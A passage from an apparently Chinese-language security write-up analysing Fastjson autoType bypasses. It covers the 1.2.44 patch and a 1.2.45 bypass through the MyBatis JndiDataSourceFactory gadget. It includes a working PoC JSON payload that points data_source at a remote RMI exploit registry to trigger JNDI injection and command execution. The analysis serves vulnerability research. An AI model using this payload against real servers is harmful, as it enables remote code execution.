 因此依次满足上面的条件即可触发payload，有个问题是为什么`"{"`在逗号前后都能触发，解析过程中判断到当前字符为16，也就是逗号时，会直接跳过该字符，进入下一个字符的处理，因此在`"["`后无论是先写逗号还是`"{"`，最终都是解析`"{"`字符

```java
if (this.lexer.isEnabled(Feature.AllowArbitraryCommas)) {
    while(this.lexer.token() == 16) {
        this.lexer.nextToken();
    }
}
```

## 补丁

- [补丁commit](https://github.com/alibaba/fastjson/commit/496418f626bda1e8cc285c5b49cbd2e55e82a5eb)
- [1.2.44](https://github.com/alibaba/fastjson/tree/1.2.44)

## 修复思路

修复方式也很直接，就是截取第一个字符根据hashCode判断是否为`"["`，就很暴力 ~ 

```java
long h1 = (-3750763034362895579L ^ (long)className.charAt(0)) * 1099511628211L;
if (h1 == -5808493101479473382L) {
    throw new JSONException("autoType is not support. " + typeName);
}
```

commit中还对之前`Lxxx;`类型payload的检测代码进行了合并，先检测第一个字符hashCode h1，为`[`抛出异常；再将其跟`;`做hashCode判断是否为之前的绕过。

---

# 版本1.2.45

## 绕过原理

- 原理：使用新的Gadget绕过黑名单
- 利用条件：需要目标服务器存在mybatis的jar包，`3.0.1 ≤ 版本 ≤ 3.4.6，`[下载地址](https://mvnrepository.com/artifact/org.mybatis/mybatis)

以下为PoC，主要利用了JNDI注入，访问恶意的远程注册中心，`data_source`可以连LDAP和RMI

主要PoC：`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`，直接运行即可触发

```java
"{\"@type\":\"org.apache.ibatis.datasource.jndi.JndiDataSourceFactory\",\"properties\":{\"data_source\":\"rmi://localhost:1099/Exploit\"}}";
```

## 详情分析

之前的补丁对类名的第一个字符进行检测，出现`"["`则抛出异常，但是这个类不会触发前面的检测机制，并且黑名单中不存在这个类的hashCode，成功绕过`checkAutoType`的检测

运行跟进调试`org.apache.ibatis.datasource.jndi.JndiDataSourceFactory`利用链，因为`setProperties` 方法[符合之前说的筛选要求](https://drops.blbana.cc/2020/03/29/Fastjson%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%9F%BA%E7%A1%80/#Note%EF%BC%9A%E5%85%B3%E4%BA%8EJavaBeanInfo%E7%9A%84build%E6%96%B9%E6%B3%95)，因此在反序列化的过程中会被自动调用`setProperties`方法，由于`properties`中属性`data_source`可控，并且进入到`lookup`方法，从而造成JNDI注入引起命令执行
